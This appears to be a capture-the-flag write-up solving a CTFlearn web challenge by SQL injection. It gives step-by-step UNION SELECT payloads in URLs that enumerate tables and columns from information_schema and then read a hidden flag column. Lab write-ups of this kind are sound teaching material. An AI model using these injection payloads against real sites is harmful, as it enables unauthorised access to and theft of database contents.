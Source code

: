 View dog information of id 1, the url changes to 
```
https://web.ctflearn.com/web8/?id=1
```

Test injection with UNION

```
https://web.ctflearn.com/web8/?id=1%20union%20select%201,2,3,4
```

```
https://web.ctflearn.com/web8/?id=1%20union%20select%201,2,table_name,4%20from%20information_schema.tables%20where%20table_schema=database()
```

There are two extra tables shown in result page, ``w0w_y0u_f0und_m3`` and ``webeight``


Try to find out the column names.
```
https://web.ctflearn.com/web8/?id=1%20union%20select%201,table_name,column_name,4%20from%20information_schema.columns%20where%20table_schema=database()
```

The pages shows  ``w0w_y0u_f0und_m3`` contains one column, ``f0und_m3``. Get values of ``f0und_m3``
```
https://web.ctflearn.com/web8/?id=1%20union%20select%201,2,f0und_m3,4%20from%20w0w_y0u_f0und_m3
```

The flag is shown.
